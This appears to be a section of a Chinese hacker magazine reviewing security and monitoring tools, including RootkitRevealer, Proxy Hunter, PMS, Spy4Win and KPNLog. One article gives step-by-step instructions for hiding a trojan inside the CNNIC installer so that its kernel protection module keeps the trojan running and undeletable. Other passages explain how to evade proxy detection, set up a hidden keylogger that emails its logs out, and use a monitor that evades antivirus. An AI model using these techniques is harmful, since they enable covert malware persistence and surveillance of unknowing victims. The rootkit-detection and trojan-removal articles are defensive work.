- 7. 加载分区后出现 DBR 被损／重建信息。这表示分区的重要参数被破坏，这样需要以硬盘方式加载该分区。专业模式下，选硬盘，下一步，在驱动器里填上分区的盘符和容量（比如 D:），填写正确后，下面的参数会自动变化，按完成。如果没有出现进度条，就点工具条上的“分析”，采用默认参数按确定。

#### 特殊功能

- 1. 镜像及安全擦拭功能。作为一个专业的数据恢复软件，扇区级备份是必不可少的功能，因为在数据恢复的一条潜规则是不能对源数据进行写操作，但有的时候我们必须对存储介质进行手动修改，如分区表参数异常，这时镜像功能就显示其作用了。在功能菜单下选择镜像就可以使用这一功能；有的时候我们为一些特殊客户服务的时候，安全擦拭功能也是很重要的。涉密数据当被恢复以后，存储过涉密数据的介质需要做数据安全擦拭处理，这款软件就带有这项功能。具体适用方法如下：功能菜单选择镜像，呼出磁盘镜像窗口后，我们可以看到“清零”按钮，不过这时该功能是屏蔽状态。使用这一功能我们要慎重，被这一功能擦拭的数据不可恢复。我们需用 Ctrl+E 来激活。
- 2. 网络数据恢复功能。数据恢复大师还支持网络恢复，具体使用方法如下。服务器端：远程需要运行 DataExploreServer.exe 文件，并且按下开始，等待 DataExplore.exe 连接。客户端：DataExplore.exe 作为客户端，在专业模式下，选中远程驱动器，在地址中填入远程机器的 IP 地址，按连接，选逻辑卷／虚拟卷，下一步，设置好参数，按完成。若远程机器在另外的局域内，需要对路由器端设置端口映射。远程监听端口默认为 4899，若要更改端口，可以直接在 DataExploreServer.exe 中更改，在 DataExplore.exe 中的配置中相应更改。若数据需要保密，请在 DataExploreServer.exe 中勾上使用加密，DataExplore.exe 中相应配置中也设置相同的加密密钥。服务器端可以看到客户端读的扇区情况。
- 3. 这款软件对 ext2 分区支持非常好，我测试发现在目前可以恢复 ext2/ext3 分区中，数据恢复大师在这方面领先其他软件，由于恢复方法类似，这里就不浪费篇幅介绍了。
- 4. 此外这款软件还支持脚本模式，利用脚本作一些更复杂的操作。提供 JScript 脚本编辑和解析，相应的有 API 供脚本调用，并将脚本执行结果列表显示，通过脚本可以查找特殊的磁盘信息并存成文件，也可以用来搜索复杂的数据。……一些其他功能由于笔者时间仓促，还没有测试，请大家自己在使用中发现吧。

数据恢复大师的下载地址是：http://www.dataexplore.net，大家可以去那里下载最新版本，同时和作者交流，最后祝福所有的国产软件走好。

**脚本小子：** 一个顶级后门一直是系统管理员们最头疼的东西，无论在 Windows 还是 Linux 下，Rootkit 都是高手们攻入服务器后的绝杀武器……

适宜读者：入侵爱好者，系统管理员

前置知识：Windows 系统知识

### 对付 HackerDefender 新招

#### RootkitRevealer

文/图 BB/晴天泡泡


超级后门 HackerDefender 应该说是大名鼎鼎，查杀也比较头疼。最近发现 www.sysinternals.com 有一款好工具，不敢独享，写下此文。最新的 RootkitRevealer 1.4 可以用来检测 Windows 系统里边是否运行着 Rootkit，它通过分析注册表和系统 API 的文件差异，能检测出来 www.rootkit.com 发布的所有 rootkit，包括 AFX、Vanquish、HackerDefender 等（RootkitRevealer 是不能够检测那些没有隐藏文件和注册表的 Rootkit，比如 FU_Rootkit）。

RootkitRevealer 内包含 GUI 和命令行两个版本，其中命令行版本配合 PsExec 可以执行远程扫描。下面我们来看看如何使用，首先要注意的是运行 RootkitRevealer 需要 Administrator 权限。RootkitRevealer 支持手工扫描和自动扫描两种方式。

Rootkit 一般认为是一种系统间谍、病毒、木马软件的集合，具有隐藏性非常好等特点，黑客可用来获取计算机的未经授权的远程访问权限，并发动其他攻击，能给用户带来严重安全威胁。

#### RootkitRevealer 的使用

##### （1）手工扫描

图1是 RootkitRevealer 界面，比较简单，直接点击 scan 就可以扫描系统了。RootkitRevealer 提供了以下两个选项：

- 隐藏 NTFS 中的元数据（Hide standard NTFS Metadata files）：该选项是默认选择的，RootkitRevealer 默认不会显示 NTFS 中的元数据（元数据是存储在卷上支持文件系统格式管理的数据。它不能被应用程序访问，只能为系统提供服务）。
- 扫描注册表（Scan Registry）：该选项默认是选择的，如果没有选择，RootkitRevealer 将略过注册表扫描。如图1所示。


##### （2）自动扫描

命令行的 RootkitRevealer 支持多种选项的自动扫描，使用方法如下：

```bash
rootkitrevealer [-a [-c] [-m] [-r] outputfile]
-a 自动扫描，扫描完毕后程序结束
-c 以CSV格式输出
-m 显示NTFS中的元数据
-r 略过注册表扫描
```

RootkitRevealer 支持扫描远程主机，不过需要与 Sysinternals 的另外一个工具 psexec 配合使用，命令行如下：

```bash
psexec \\remote -c rootkitrevealer.exe -a c:\windows\system32\rootkit.log
```

这是 RootkitRevealer 检测 HackerDefender rootkit 的截屏。利用 RootkitRevealer 我们可以很轻松地发现 HackerDefender 保存在注册表中的驱动和服务的子键以及文件的存放地址。如图2所示。


通过 RootkitRevealer 扫描出的信息，你就可以确定你的机器被哪些 Rootkit 光顾了，不过 RootkitRevealer 并不能清除这些 Rootkit，要清除 Rootkit 我们还需要借助于其他工具。

RootkitRevealer 可以帮助我们方便地查找 Rootkit，免得自己被卖了还帮别人输钱！使用 RootkitRevealer 之前，最好先用优化大师将注册表清理一下，免得信息太多反而将 Rootkit 遗漏了，如果你发现机器上有很多 Rootkit 的话，格式化硬盘然后重装系统或者 GHOST 回去是最好的选择。

适合读者：网络管理员  
前置知识：Windows 系统知识

## 快速切换网络配置的好工具

### IP Changer

文／图 阿永

我们对网络进行维护时，经常需要改动电脑的网络配置参数，比如 IP 地址、子网掩码、默认网关、代理服务器、DNS 服务器等。尽管在 Windows 2000/XP 下更改 IP 地址不需要重启电脑，但是每次还都要进入“控制面板”→“网络”→“TCP/IP 属性”进行修改，实在是麻烦。不过现在好了，有了 IP Changer 我们就可以快速切换网络配置了。

#### 安装与运行

IP Changer 可以让你预先设置保存多套网络配置（包括 IP 地址、网关、子网掩码、DNS、代理服务器和打印机等参数），当需要更改网络配置时，只需选择其中相应的一套配置，点击“Apply”按钮，不用重新启动电脑即可进行切换，非常方便。同时它还支持多网卡。我们可以到 http://www.skycn.com/soft/7726.html 处下载得到它的未注册版本。软件的安装很简单，双击下载得到的文件，一路“Next”后重启电脑即可使用。

首次启动 IP Changer（由于是未注册版本，需要等待 15 秒并关闭注册窗口后才能进入）会自动检测当前网卡的 TCP/IP 参数设置，并生成一个叫“New Location1”的配置。如图1所示。可以看到主窗口左边列出了当前电脑的所有网络适配器以及各网卡对应的网络配置，右边的“Apply”“Add”“Modify”“Delete”“Register”等功能按钮分别对应应用该网络配置、添加新的网络配置、更改选定的网络配置、删除网络配置及注册软件等功能。另外，需要注意的是，如果局域网中运行有 DHCP 服务器，IP Changer 可能不能正常运行。


#### 添加网络配置

- 1. 点击“Apply”按钮打开新建配置向导（New Location），在“Input location name”文本框中输入新建的网络配置名称（比如“单位”），并在“Select LAN adapter for current location”中为该配置选择相应的网卡。
- 2. 点击“Next”按钮，设置 TCP/IP 属性和上网方式。TCP/IP 属性可选“Obtain an IP address automatically”（自动获取 IP 地址）或“Specify an IP address”（指定 IP 地址）；上网方式可按实际选择（如 Cable Modem 或 ADSL）。
- 3. 接下来会出现设置 TCP/IP 属性的窗口，在“IP Address”中输入想要设置的 IP 地址，在“Subnet Mask”中输入子网掩码，在“Gateway”和“DNS Server”中分别输入默认网关和 DNS 服务器 IP 地址，并点击“Add”按钮，再点击“Next”。
- 4. 在接下来出现的设置代理服务器和打印机的窗口中，还可点击“Proxy Settings”“Printer Settings”进行设置；如果不想设置，直接点击“OK”完成网络配置。完成后主界面列表中会多出一个新的网络配置。

同样，可按照以上步骤逐个添加其他新的网络配置，不过未注册版本的 IP Changer 只允许建立两套网络配置；如果想添加更多，就只有注册了。对于任何一个已有的网络配置，在主界面中选中后，都可以通过点击“Modify”按钮随时随地进行更改，如图2所示。


#### 切换网络配置

当需要进行网络切换时，在 IP Changer 主界面中，点击左侧列表中想要切换的配置，再点击“Apply”按钮。过一会儿，便会提示“Network environment is successfully established”（网络环境建立成功），说明已经切换到新的网络配置并可以使用了，而且这时该配置前的按钮会变为红色。怎么样，很方便吧！赶快去试试！

适合读者：入侵爱好者，网络管理员

前置知识：无

### 巧用代理猎手

#### 揪出局域网中的二级代理

文/图 朱宏志

什么是二级代理？这里不想做概念上的解释，先来看图1。

在这里，内网根据 IP 范围分成两部分，一部分为可上网区，一部分为不可上网区，如果不可上网区的电脑通过可上网区某台电脑的“中转”而上网，那么我们就可以说这台“中转”电脑就是（非法）二级代理（图1中的 B）。二级代理是很多网管朋友们头痛的，因为通常情况下，通过二级代理上网并没有什么异常之处，所以要在网内查出二级代理也有些难度。不过，俗话说得好，要想人不知，除非己莫为，通过一些方法，我们是可以揪出这些二级代理的。


图1

#### 二级代理实现的大致方法

知己知彼，百战不殆。要想找出二级代理，就得先看看它实现的大致原理和方法。图1中不可上网区的电脑 C 之所以要通过二级代理 B 进行上网，是因为它要向代理服务器 A 隐藏自己的 IP，因为如果代理服务器 A 知道了源地址是 C，那么它将拒绝 C 上网，所以二级代理的关键是第一要能隐藏源 IP，二要能转发数据。

从网络分层结构来说，在网络层，我们可以通过 NAT 来达到隐藏源 IP 和转发数据的要求；从应用层来说，常见的应用代理服务器（如 CCproxy）也能实现我们的要求。只是 NAT 由于工作在网络层，它基本上适用于任何网络程序，而代理服务器工作在应用层，所以不同协议的网络程序需要不同的代理程序，比如 IE 需要 HTTP 代理，而 wmv 在线电影需要 mms 代理。不过现在流行的代理服务器都集成了很多种代理功能，比如 CCproxy 就有 HTTP/FTP/RTSP/MMS/TELNET 等多种代理功能。

NAT 方法最大的缺点是它需要二级代理有两个网络连接，也就是需要两块网卡，这对那种“偷偷摸摸”的二级代理是不现实的，因为这很容易被发现，一般情况下也不容易实现，因为这需要一条多余的网线和多余的网络接口，所以这里将重点探讨应用代理服务器这种二级代理（以 CCproxy 为例）的查找。

#### 巧用代理猎手发现内网的二级代理

CCproxy 既然是服务器，那么它也就需要在某个或某些端口上进行监听，这样才能提供代理服务。由于 CCproxy 集成多种代理功能，所以它需要在多个端口上进行监听。基于此，我们可以通过扫描端口的方法来发现可疑机器，比如常见的 HTTP 代理端口是 8080，如果扫描发现内网有机器正在监听 8080 端口，那这台机器就很可能是一台 HTTP 代理服务器了；但如果对方使用非常规端口这种方法就不行了，所以通常的端口扫描并不实用，我们需要一种既能进行端口扫描又能进行端口验证的扫描程序，这样不管二级代理使用什么端口，都能被准确识别。微软公司的 portqry 可以识别一些特定的服务，但支持的数量有限，并且多与代理无关，这时我们可以使用常用的代理寻找工具，比如用“代理猎手”来完成这个工作，看起来这个工具对网管也是很有用的，下面是大致使用步骤。

- 1. 先进行一些必要配置。在网管机上运行代理猎手，选择菜单“系统”下的“参数设置”；在“搜索验证设置”里勾选“启用先 Ping 后连的机制”，这样可以避开扫描那些不在线 IP 的端口，从而提高扫描速度。然后切换到“验证数据设置”标签，点击下方“添加”按钮，在新窗口的验证名中填入 Web，验证地址填写一个连接速度很快的 Web 服务器地址，最好是内部 Web 服务器，在特征字串中填入上面 Web 服务器首页源代码中包含的一个字串，比如 `<title></title>` 标签中的内容，如图2所示。


图2

- 2. 完成后在主窗口中进入“搜索任务”标签，添加一个任务，在“任务类型”选择“搜索网址范围”，然后在下一个窗口添加上要扫描的内网地址范围，这里是 192.168.0.1～192.168.0.254，在“端口和协议”窗口中添加端口范围 0～65535（即全扫描），协议为 HTTP/FTP/SOCKS 都设为必搜，如图3所示。


图3

这样将扫描内网每一台在线机器上的每一个端口，绝无漏网之鱼。完成之后点击上面的三角形按钮开始扫描，然后在右边的“搜索结果”栏里会有扫描结果，如果发现结果是“free”或“要密码”就表明这台机器是代理服务器，如图4所示。


图4

#### 其他方法

除了上面的端口扫描和端口验证的方法，还可以选用其他方法，比如进行流量监控，但如果二级代理流量比较小，发现它也不容易。

在上级代理服务器（这里是代理服务器 A）上的日志中寻找线索，这需要代理服务器日志本身支持记录一些特殊信息，比如如果上级代理服务器使用的是 ISA，而客户端又是使用的防火墙客户端，那么在防火墙日志中就会有相关客户端运行的程序名，比如能够在日志搜索到 CCproxy.exe 字样。

#### 防止被揪出的方法

我们知道猎手对于 Server 所发出的信息：

```http
GET http://www.xxx.com
HTTP/1.1
Host: www.xxxx.com
Accept: */*
Pragma: no-cache
User-Agent: ProxyHunter 1.0
```

也就是说，在发出了这样一个命令序列后，如果对方是 Proxy Server 的话，猎手就会收 www.xxx.com 的首页，然后下来应该是在主页中搜寻预先定义在猎手中的 Keyword。如果为真，则目标是代理服务器。于是我猜想如果直接发 Keyword 给它，会不会通过它的检验了？答案是 NO！架上 Sniffer，上一个真的代理，然后再找一个有限制的，测试完后赶紧断开连接。下面是真代理服务器的 log：HTTP/1.1 200 OK。

肯定它还检查了另外的特征串，但没有什么好的办法，只好一个一个地试了。而在验证有限制或不能访问的代理时，LOG 如下：HTTP/1.1 404 ERROR。进一步的研究表明，仅发出“HTTP/1.1 404”的字符串就可以欺骗从而通过验证，猎手显示“要密码”。2.8 版的猎手中还增加了对 Socks 的验证，但结果同上。

### 巧用 Windows 优化大师捉拿木马

近日，当笔者下载了一个新版的 QQ，在没进行病毒扫描便开始安装时，一个名为 QQ mmsz.exe 的木马程序悄无声息地闯入了电脑，导致不能使用“注册表编辑”“msconfig”和“Windows 任务管理器”的命令。在先后用了各种杀毒软件，甚至修改了注册表，结果问题依然存在。

在无意中想到 Windows 优化大师在“开机速度优化”这一选项好像可以禁用自启动程序。于是打开这一选项，看到开机自动运行的程序名“internat.exe”“Rundll32.exe”“ctfmon.exe”“stylexp.exe”“desktop.exe”。其中 stylexp.exe 是我装的 WindowsXP 皮肤，在充分利用优化大师的“程序解释”功能（点击左键就可以知道该程序的功能），排除了其他几个常用程序之后，“desktop.exe”成为我怀疑的对象。选择禁用“desktop.exe”，重启计算机，再次进入 Windows 界面后全部恢复正常。

看来问题就出在“desktop.exe”的身上。接下来就是利用 Windows 的搜索功能查找 C:/Windows/System32 文件夹里的“desktop.exe”。第一次电脑提示没有找到，再次选择包括“隐藏文件”，这回找到了一个大小为 57KB、名为 desktop.exe 的文件，选择删除，可恶的 QQ 木马终于从电脑中彻底消失了。

现在有一些电脑病毒包括木马能够自动关闭和禁止查杀病毒的工具，有些还能禁止使用“注册表编辑”和“msconfig”“Windows 任务管理器”的命令，遇到这种情况，又对注册表常用程序不太熟悉的朋友不妨试试我的这种利用第三方软件的方法。借助 Windows 优化大师里“自启动程序”的详细解释功能，能够很容易地帮你辨别哪些是常用程序，哪些是可恶的木马。剩下的只要将它影响的程序禁用，再利用搜索功能将它从电脑中删除，就是很容易的事情了。

适合读者：入侵爱好者，木马爱好者  
前置知识：木马使用基础

## 移花接木之巧借“CNNIC中文上网”保护木马

文／图　想念苑的人


近来“CNNIC中文上网”好像搞得满城风雨，为何呢？原来官方为了想要更多人用这软件，在此软件里运用了VXD（设备虚拟）技术，使此软件一旦装到系统并重启后，它的软件保护模块就自动加载到系统的内核，实施软件的强行保护。就算是用它的卸载程序也没有效，如手动删除它的软件就会提示出“删除出错，磁盘保护”这类似的字样，这样看来它真的难倒不少人呢。

既然它那么强大，如果把它的保护模块分离出来，或把你的木马替换了它的软件程序，那么“CNNIC中文上网”的“保护”就可以无条件保护你的“马”啦！下面我就举个例子来实现“CNNIC中文上网”做我的木马的保护吧。

如何把它拆开，把自己心爱的马放进去呢？为了我的马可以生活得更好，最好就是安装“CNNIC中文上网”（计算机没有重启前是可以用它的卸载程序来卸载的）。当安装后，在你文件缓存目录“TEMP”里会有一个“Setup”的文件夹，如图1所示。


那是安装程序安装时把所有的有关程序释放到这里的，在这里我们可以获得它的全部文件。获得了它的全部文件后，你就可以卸载“CNNIC中文上网”了。

在这我先说说它的有关文件的作用吧。图1中那个我选定的文件“CdnUp.exe”是这个“CNNIC中文上网”软件的在线升级程序，它会在注册表的Run项里加载它。我们要挂的马就瞄准这个文件了，因为保护模块会保护这程序的开机启动，就算你删除了Run项里这个启动，不过几秒又恢复了。而里面的那些*.vxd、*.sys就是设备虚拟文件，它就是我们要引用的程序保护模块。比较重要的就是“Insgr36.exe、setup.exe、cdnins.dll”这几个文件，它是这个软件的安装主程序，我们打算用WinRAR将这些和木马重新打包成一个自解压文件。那如何做呢？

如果你觉得里面的文件太多了，你可以把那些也删除一些，如那些卸载程序。若你觉得那样比较麻烦，可直接把你的木马改成那个“CdnUp.exe”，替换成里面的那个“CdnUp.exe”，这样也没所谓。我是怕麻烦的人，所以我就把它替换就算了，如图2所示。


为了测试，图2那个选定的文件就让我把那个FileMon的文件监视工具替换成里面的文件。接下来就是最重要的一步了——打包。下面我示范用WinRAR来打个自解压包，如图3、图4所示。


要记得的就是在图4的那个“解压后运行”的程序，这个要填的就是“CNNIC中文上网”的安装主程序，它默认为“Insgr36.exe”，这样就打包设置完了，如图5所示。


那是经过我替换文件后的结果。当安装程序结束后就会运行那个“CdnUp.exe”的程序。下面我们就要看看最关注的问题：木马替换进去后能否删除，不过这要先让计算机重启才会有效果的，如图6所示。

> 哈哈，“CNNIC中文上网”的软件保护模块已经无条件为我的马儿服务了。如果你想要精简一些的可以自行精简一下，这样比较好。有时候只要变通一下就可以达到很好的效果。

---

适合读者：网络管理员，经理  
前置知识：无

## 明察秋毫的局域网监控软件PMS

文／图 gzyingji


随着计算机应用的深入，各行各业迅速向电子化、网络化发展。很多企业或机构都建立了自己的内部网，这样数据安全、员工工作效率、思想交流、网络安全等就显得越来越重要。而传统的管理方法在新的形势下已经显得力不从心了，管理人员需要在网络环境下，能够准确及时地了解员工的工作情况，方便地进行思想交流与工作布置、有效地监控公司的机密数据等。

赶快使用局域网监控专业工具——“路径监控软件（PMS）”吧。它能让你坐在自己办公室里就可以掌握员工们的一举一动，防止他们怠工，更重要的是可以监控公司的商业机密数据不被泄露。如果你出差去了，回来之后也还能查看员工的监控记录和上网记录，PMS时刻为你守护着！下载地址：http://www.pathinfo.net/download/insceoman.rar

#### 安装

解压下载的压缩包会得到两个文件：一个是InsCeoManS.exe，这是经理端安装文件，需要在经理机器上安装；另一个是InsCeoEmpIS.exe，这是员工端安装文件，需要在员工机器上安装。

##### 1. 经理端控制台安装

在经理的电脑上双击InsCeoManS.exe，然后按照屏幕上的提示操作即可。安装完毕后，第一次使用需要搜索局域网中的所有机器，系统会自动存储搜索结果。接下来可以对每一台机器进行操作与控制。

##### 2. 员工端安装

在员工的电脑上双击InsCeoEmpIS.exe，不会显示安装界面，稍等提示安装成功。员工端安装完成后，在经理端就可以搜索所有已安装的员工机器，并进行相关监控操作了。

#### 使用

##### 1. 系统操作

首次运行时会自动进入“系统操作”界面，如图1所示。


该软件会自动搜索局域网中的所有机器，系统会自动存储搜索结果。接下来可以对每一台机器进行操作与控制。因为每次开机时局域网中所开的电脑并不一样，因此在管理前需手工进行搜索。

- **搜索机器**  
  点击“搜索机器”后系统就可以将局域网内所有已经开启的机器搜索出来，你可以根据IP地址修改主机名称，如操作人员姓名，能显示得更加直观。若你公司需对新增电脑进行管理，可点击右键来增加机器，然后输入新电脑的IP地址或主机名称，再按“确认”即可。

- **机器锁定**  
  如果你发现某人正在操作的程序不符合公司利益，可以单击选择该机器（如93.132.0.11电脑），然后点击“机器锁定”图标，此时93.132.0.11电脑的键盘和鼠标均会失效，不能再被操作。可以有效地防止公司机密流失，并提供有力的证据。

- **机器解锁**  
  选择需要解锁的机器，然后点击“机器解锁”，就对被锁机器解锁了，此后该机器的键盘鼠标等输入恢复操作功能。对于被监控的机器还可以使用更厉害的招术，如“机器重启”“机器关机”等。

> 如果你想查看各员工端正在进行的工作，并动态跟踪屏幕显示内容，那么请选中需监控的机器，然后点击“屏幕截取”按钮就可以了；使用“网站历史记录”功能可以查看员工端最近两周内所浏览网站的历史记录，这样即使出差在外，回来后照样可以查看网站历史记录来了解员工最近两周内的上网情况。

##### 2. 屏幕查看

现在可以通过“屏幕查看”功能来查看员工在干什么了，如图2所示。点击“屏幕浏览”按钮显示如图3所示的界面，左侧列表显示了日期，点击一个日期（如0401），就可以看到被监控机器的每隔5分钟抓取的图片。最长时间为两周，时间还是够长的吧？

##### 3. 键盘记录

该软件可定时定项地记录每台工作站的键盘记录，凡在键盘上的操作都可一一显示，包括邮件、网上聊天记录，提高公司资料的安全性。

软件默认记录被控端的键盘操作。选择你需要管理的机器，再点击“查看记录”就可对该机器的所有操作进行查看。当然你可以停止记录键盘或删除键盘记录，如图4所示。


##### 4. 信息传递

通过“路径监控软件”的交流与沟通功能可用于工作布置、发布公告信息、思想交流与沟通、网上会议等，如图5所示。


- **发布公告**  
  你若有紧急事件要和所有人员交流，可用此来发布。点击“发布公告”弹出发送信息录入窗口，如图6所示。把你所需要发布的信息（如“今天晚上7:00全体员工到会议室开会”）输入后，点击“确认”，这样所有员工端机器都会显示上述信息。  
  > 可以使用“装载”功能将事先写在TXT文件中的内容导入到信息录入窗口，然后直接发送即可。

- **思想交流**  
  为增进你与员工之间的沟通，请选择你与所需交流的机器，然后点击“思想交流”，此时对方电脑上也会显示对话窗口，双方进行文字对话就可以了，就如同QQ的聊天模式一样。

- **信息发送**  
  选择你所需管理的机器，点击“信息发送”，在跳出的提示窗口中录入，就可将你所需发送的信息发送到该机器上，对方收到后弹出的窗口，如图7所示。  
  有很强的警示作用哦！


##### 5. 文件操作

在局域网中供求传递文件常用的方法是共享目录，这样做很不安全。因为为共享目录设置的密码，使用专用嗅探工具只需10秒就能破解。还是使用“文件操作”功能吧，这样就可以在员工端文档不共享的情况下，来发送或接收文件。

选择你所需要管理的机器（如REPORT-1），单击“发送文件”，弹出文件选择窗口。选择待发送的文件（如ghost.rar），单击“打开”按钮。则会出现如下信息：“正在发送文件 C:\ghost.rar 到机器 REPORT-1 上”，稍等发送成功。

##### 6. 数据保护

使用“安全卫士”→“数据保护”功能可以最大限度地保护系统的安全。数据保护分为文件保护、上网安全和黑客防卫，主要是对相关数据进行管理和保护，如图8所示。


文件保护是对重要的文件进行保护，先选择保护方式，再加入需要保护的文件，确认即可。这样，在员工端访问此文件的时候，就会按照所采取的保护方式执行。

上网安全是恢复因上网而引起的一些安全问题、广告网页等，单击“恢复”按钮即可。黑客防卫可以清除电脑上的黑客软件，切换到该页，单击“清除”按钮就可以了。

现在，你对“路径监控软件”的功能有了大致的了解，也许你觉得其功能与“广外女生”相比没有太大优势，但“广外女生”会被所有杀毒软件杀掉，而“路径监控软件”不怕杀毒软件的查杀，笔者已在金山毒霸、KV2005、瑞星杀毒软件（RAV）2005下测试过。

---

## 多面刺客 Spy4Win试用手记


今天上网遇到老妖，问他有什么好玩的新作品问世没，他甩给我一个链接“哇卡卡，你看看就知道了”。晕，只好去看了。这一看，发现新的Spy4Win的确是个巨强的东东，毫不比MS的Spy++逊色，甚至更强！

Spy4Win（Spy for Window）是一个类似MS Spy++的辅助工具，主要功能是探测和获取窗口的更多信息。可以从可执行文件中提取窗体可重用单元并生成Delphi和C++ Builder支持的单元文件，克隆其他程序中的窗体菜单或系统菜单并应用到Delphi和C++ Builder中，分析IE页面。新版本中提供了对插件的支持，可以通过编写dll来扩充软件功能，界面如图1所示。


#### 刺探窗体信息

这是Spy4Win最主要的功能，当然相当强悍，只要把软件主界面上的狗头拖到目标窗口上就可以了，或者可以通过按钮选择窗口，如图2所示。


如果把狗头拖到子窗口上，就可以得到此控件的一般信息。通过切换各个标签，窗口的式样、控件、类、内容、进程、代码等相关详细信息全都一览无遗，如图3所示。


对于有菜单的窗体，可以把狗头拖到主窗体上，这样“附加工具”中原来为不可用的“克隆窗体菜单”等选项会变为可用，如图4所示。

此时你可以克隆窗体菜单或者系统菜单，然后加到自己程序里去。当然，如果软件作者仅仅使用灰色菜单来屏蔽功能，你也可以使用“所有菜单项可用”来破解。

那么，灰色菜单可用了，灰色按钮怎么办？别急，在先选中控件后打开“窗口”选项卡就好了，如图5所示。


看见右边的“窗口可用”吗？勾上，这个控件就投降了。这里也顺带介绍Spy4Win的一个很重要的功能：选择“附加工具”→“截获窗口消息”来对窗口下个Hook。单击“开始拦截”就可以对发往该窗体的各种消息进行拦截，或者伪造消息发往窗口，实现模拟按钮单击、改变文本等功能。

如果该程序中存在DFM格式的窗体，Spy4Win还可以直接提取出窗体信息并生成单元文件，可在C++ Builder和Delphi中使用。

### 刺探IE页面

IE页面分析功能包括读取IE页面元素、缩放页面、高亮页面中的关键字、提取所有链接/图片链接/Flash链接、运行JavaScript和VBScript脚本等。我们在使用时只需点击右上角的“附加工具”→“分析IE页面”就可以了。之后会弹出一个窗体，如图6所示。


这里可以得到IE页面的一般信息。如果选择“链接”选项卡，什么图片链接、Flash链接不都在眼前了？全金属外壳喜欢收集好玩的Flash和ShockWave小游戏。有了这个功能，我们就不用去翻源码啦，如图7所示。


图7


图8

#### 刺探进程相关信息

点击“附加工具”，选择“进程管理”，可以打开“进程管理”对话框，如图8所示。

可以看出，Spy4Win的进程管理比Windows自带的任务管理器功能要强很多。不单可以进行常规的进程列表、中止进程等等操作，还可以列出每个进程的模块列表和线程列表，中止模块或是加入模块（这个功能有利于我们测试dll后门）。在Spy4Win下，我看一般的木马或使用dll注入技术的后门就无处藏身了。不过遗憾的是，对于RootKit，Spy4Win还是无能为力的，毕竟也是调用正常的API函数进行工作的。

总的来说，Spy4Win的确是一款不可多得的多用工具。更富创造性的是，新版的Spy4Win开始支持插件了。你我要是有兴趣，完全可以自己为它添加功能。作者给出了例子插件，我们看着写就是了，嘿嘿，要是我写个插件是dll木马该多好。（老妖：我劈了你！）


---

适合读者：网民  
前置知识：无

## 我的电脑我掌握——KPNLog记录者

文／图 颖颖

如果你想知道别人在你的电脑上做了些什么？别人如何使用电脑？经常浏览哪些网站？经常玩什么游戏？KPNLog会告诉你一切！

KPNLog是一款优秀的系统监控软件，可以记录计算机使用者的鼠标消息、键盘输入、屏幕截图、上网记录等功能。当别人使用你的电脑时，你可以清楚地知道他在你的电脑上做了些什么，保护你的权益不受侵害！软件主界面如图1所示。


图1

为了让其更隐蔽、更安全地为你工作，需要进行设置。

#### 基本设置

点击“配置 -> 基本设置”，如图2所示。


图2

在“运行方式”栏选择“隐藏运行”，这样才够隐蔽；如果想弹出窗口，只需按热键（默认键为Ctrl+Shift+6，可以更改）即可，也可以通过双击运行程序来显示窗体。在“功能设置”栏将自己需要的监控内容（“开启键盘记录功能”“开启截图功能”“开启上网记录功能”）勾选即可。最后别忘了点击“保存设置”按钮。

#### 截图功能

在这里可以设置“保存截图路径”“截图时间间隔”和“截图张数”，根据自己监控要求设置就可以了。建议不要设置太小的时间间隔，否则你的硬盘可能吃不消。

#### 键盘记录功能

为了让你不管在什么地方都掌握你的电脑被使用的情况，可以开启邮件发送功能。勾选“开启将文件发送到邮箱功能”，然后输入“邮箱地址”。注意不能用常用的163、263、sohu、126等邮箱，推荐mail.gxnews.com.cn，并正确设置“邮箱SMTP”，然后点击“邮箱连接测试”，测试发信功能是否可以使用。如果不行请换一个邮箱再试。最后要记着保存设置，如图3所示。


这样当你的电脑连接上互联网时，则系统会在监控的同时，将记录的文本发送到你的邮箱，你可随时查看。

#### 上网记录功能

在“自动保存记录”栏可设置自动保存上网记录的天数。系统自动判断：如果在网页停留的时间大于4秒，系统认为浏览过此网页，则记录该网页。当日内，相同的网页只记录一次。同时可以设置邮件发送功能。

设置完成后返回主界面，单击右下角的“运行”按钮就开始监控了。稍后你就可以分别点击主界面上的“文字监控”“图像监控”或“网络监控”标签，然后再单击右下角的“查看记录”来选择查看某一天的相应记录了！

下载地址：http://www.kingtim.com/DownLoad.files/KPNLog.rar

---

适合读者：网站管理员、网民  
前置知识：FTP使用基础

## 用FlashFXP修改目录权限

文／图 jokerfox


前段时间被老师叫过去负责做院网站，中间遇到了一个不小的权限问题，不过却用一个相当简单的技巧解决了，现在特拿出来和大家分享一下。

事情是这样的，院里面的服务器是Red Hat Linux 8.0，Web配置为Apache+MySQL+PHP，其他的美工和程序都做得差不多了，就差后台管理的图片上传功能怎么也成功不了。是程序的问题吗？我把整个网站放在我自己的服务器上，很好，上传是成功的。可是为什么这台服务器就没法文件上传呢？当时情急，一时还真没想出什么办法来，因为马上就要交工了，这个问题不解决，老师们怎么来发布图片新闻啊！只好打电话询问网站制作者，以下是部分对白。

> “喂，兄弟，是我。咱院这个Linux服务器用PHP写文件上传的程序怎么老失败呢？程序绝对没有问题！”  
> “哦，那八成是服务器里面文件夹的目录权限不够吧！用chmod改改就可以了。”  
> “可是兄弟啊，你知道怎么进入服务器修改目录属性吗？”  
> “需要root的权限才可以改，不过我知道root的密码是多少？似乎程XX知道，他以前是管理员。”  
> “我没有程XX的电话，只好问张XX老师。”  
> “张老师啊，我是XXX，请问知道程XX的电话吗？”  
> “他飞美国去了。”

晕，又兜转了一圈，找了几个人，都说不知道root的密码，看来这台破服务器真的是很久没有人来管理了。可是总不能因为这点小问题就重装系统吧！

那么现在的情况是，我没法直接登录服务器，因为我没有任何的系统账号。我只有一个FTP的账号，用来上传Web文件的。总不能在一棵树上吊死吧！看看FTP里面有没有什么玄机！

我打开FlashFXP，连接到服务器上。选择了存放上传文件的目录，点击鼠标右键，如图1所示。


## 黑客攻防苑 / TOOLS ATTACK DEFENCE

（栏目编辑）蝴蝶 butterfly@hacker.com.cn

我看到了属性和 chmod 的字样！哈哈，看来有救了。选择后看到了如图 2 所示的界面。


是的，这里就可以修改目录的属性了。我们看到红框里面的 3 组复选框，如果是上传的文件的话，就要把写入的权限都勾上，使下面的许可栏里面的数字变为 777 即可。事实也的确如此，这样修改后上传就没有问题啦！

呵呵，可是为什么呢？原来 Linux 下面的文件（目录也是文件的一种）都是通过 10 位标志位来进行属性辨别的。如果你经常使用命令行，用 ls 命令就知道这点。比如有一个普通文件，它的属性标志可以是这样的：`-rwxr-xr--`

